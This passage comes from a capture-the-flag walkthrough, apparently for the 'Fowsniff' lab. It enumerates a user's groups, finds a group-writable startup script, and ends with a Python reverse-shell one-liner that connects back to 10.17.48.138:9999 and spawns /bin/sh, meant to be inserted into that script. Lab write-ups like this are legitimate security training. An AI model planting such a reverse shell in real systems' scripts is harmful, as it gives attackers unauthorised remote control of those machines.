 ### No answer needed

###

### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

We can check which group the `baksteen` user belongs to using the following command:

```
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

As we can see `baksteen` belongs to the `users` group.

Now, let's find the files that can be run by the `users` group.

```
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
```

### No answer needed

###

### Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Let's check what the file does.

```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

We can include the reverse shell that was provided to us with a few modifications:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.48.138",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
